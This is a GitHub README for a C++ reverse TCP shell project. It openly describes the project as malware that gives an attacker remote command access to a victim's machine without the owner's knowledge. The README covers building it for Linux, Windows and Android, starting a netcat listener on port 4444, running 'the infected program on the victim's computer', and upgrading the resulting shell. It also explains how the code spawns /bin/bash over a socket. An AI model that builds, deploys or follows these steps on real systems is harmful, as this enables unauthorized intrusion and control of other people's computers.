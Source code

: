 <h1 align="center">
    <a href="https://github.com/Untouchable17/Reverse-TCP-Shell">
        <img src="https://i.ibb.co/sFWgnqx/cvvccv.png" width="700">
    </a>
</h1>

<p align="center">
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell"><img src="https://img.shields.io/static/v1?label=version&message=2.0.0&color=green"></a>
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell/issues?q=is:issue+is:closed"><img src="https://img.shields.io/github/issues-closed/Untouchable17/Reverse-TCP-Shell?color=orange"></a>
</p>

<h1 align="center">TCP Reverse Shell C++</h1>

<b>TCP reverse shell</b> is a type of shell in which the attacker creates a connection from the target machine back to the attacker's machine, rather than the attacker connecting directly to the target. In this script, the attacker typically sets up a listener on a specified port on their own machine, and the victim machine is then compromised with malware that establishes a connection to the attacker's listener. Once the connection is established, the attacker has access to a command prompt on the victim machine, and can execute commands and interact with the system as if they were sitting at the machine itself. This technique is commonly used in cyber attacks and penetration testing
<h2 align="center">Installation</h2>

<p align="center">Installing and using program process:</p>

<p align="center">Execute all commands on behalf of the superuser and set your machine ip and port in files</p>

1. Download or clone this repository.
```
git clone https://github.com/Untouchable17/Reverse-TCP-Shell
```
2. Make the file executable with the chmod +x command
```
chmod +x install.sh
```
<br/>
3. Run the bash script `install.sh`

<br>This script will automatically download and install all the necessary dependencies, compile the programs, and then offer you to choose 1 of 3 start options


> Other Method: Manual Installation
1. Downloading or cloning this GitHub repository.
```
git clone https://github.com/Untouchable17/TCP-Reverse-Shell
```
2. Update system packages and install libpcap
```
apt-get update && apt-get upgrade -y
apt-get install libpcap-dev -y
```
3. Compile files
```
g++ ReverseShell.cpp -o ReverseShell.o
g++ SecureTCPConnection.cpp -o SecureTCPConnection.o
```
4. Run one of the program
```
./ReverseShell.o or ./SecureTCPConnection.o
```
<br>You can add the correct path to global like this: `export PATH="$PATH:$(pwd)"` and then you can run the program by just entering their name ReverseShell.o or SecureTCPConnection.o

> For Windows
1. Compile the program using the flag -lws2_32
```
g++ winshell.cpp -o winshell.exe -lws2_32
```
2. Start the event listener and run the compiled program

<br>
<h2 align="center">Install and build the apk file for Android</h2>
<b>Method 1:</b> To build, use the `gradle build` command in the `Android Studio` terminal. This command will compile the source code and create an `APK file` that can be installed on an Android device
<br>
<br>

<b>Method 2:</b>Install `Android SDK` (Native Development Kit) and compile the program code in C++ with the command `ndk-build` and then assemble the APK file using `ant release` command

<br>
<h2 align="center">How to use</h2>
<p>At first, start listening on the hacker's computer (or on your own) to the port you specified in the file (by default, port 4444), and then run the compiled infected file on the victim's computer</p>

1. Starting port listening
```
nc -nlvp SET_PORT (ex. 4444)
```
2. Execute the infected program on the victim's computer
3. Congratulations, now you have a shell
4. If interactivity has not appeared, execute this command
```
script -a /dev/null
```

```
change shell: chsh -s /bin/{shell}
```

```
show list shells: cat /etc/shells
```

<h2 align="center">A little explanation of the code and a teaser</h2>

- This program is a type of software that allows an attacker to gain remote access to a computer or network without the knowledge or permission of the system owner.

- This code creates a TCP socket that connects to the specified server and port. Then the child process is created using the fork() call. The child process runs the /bin/bash shell, which allows an attacker to execute arbitrary commands on a remote system.

- In the parent process, commands are read from a remote client via a socket. The received commands are passed to the child process for execution using the open() call, and the results of executing commands are sent back to the client via the socket. The parent process constantly waits for commands from the client and executes them until the client closes the connection.

- In general, this code can be used for illegal access to a computer or network, so its use for illegal purposes is prohibited.


## Contact Developer


    Telegram:           @secdet17
    Group:              t.me/secdet_team
    Email:              tylerblackout17@gmail.com

